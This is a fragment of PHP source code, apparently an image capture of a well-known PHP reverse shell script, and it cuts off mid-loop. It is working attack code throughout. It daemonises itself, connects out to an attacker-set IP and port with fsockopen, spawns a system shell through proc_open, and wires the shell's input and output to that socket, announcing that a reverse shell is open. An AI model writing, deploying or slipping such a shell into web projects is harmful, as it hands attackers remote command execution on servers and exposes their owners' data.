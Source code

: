 ```
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
```